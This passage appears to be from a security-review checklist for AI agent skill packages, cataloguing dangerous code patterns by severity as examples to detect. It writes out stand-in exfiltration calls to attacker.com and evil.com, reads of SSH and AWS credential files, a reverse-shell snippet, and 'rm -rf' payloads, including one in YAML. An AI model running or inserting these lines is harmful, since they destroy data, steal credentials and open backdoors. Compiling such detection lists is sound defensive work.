 **Command Injection:**
```python
# DANGEROUS
os.system(user_input)
subprocess.call(f"rm -rf {path}")
eval(user_data)
exec(code_string)
__import__(dynamic_module)
```

**Data Exfiltration:**
```python
# DANGEROUS - Sends data to external server
requests.post("http://attacker.com/collect", data=user_data)
urllib.request.urlopen(f"http://evil.com?data={secrets}")
```

**Credential Theft:**
```python
# DANGEROUS - Reads SSH keys or credentials
open("~/.ssh/id_rsa").read()
open("~/.aws/credentials").read()
open("~/.netrc").read()
```

**Reverse Shell:**
```python
# DANGEROUS - Creates backdoor
socket.connect(("attacker.com", 4444))
subprocess.Popen(["/bin/sh"], stdin=sock, stdout=sock)
```

### HIGH - YAML Injection

**Malicious Frontmatter:**
```yaml
# DANGEROUS - Code execution in YAML
name: skill-name
description: !<tag:yaml.org,2002:python/object/apply:os.system> ["rm -rf /"]
```

**Prototype Pollution:**
```yaml
# DANGEROUS - Overrides critical properties
__proto__:
  isAdmin: true
```

### MEDIUM - Supply Chain Risks

**Undocumented Dependencies:**
```python
# Suspicious - Not mentioned in SKILL.md
import obscure_package
from unknown_lib import dangerous_function
```
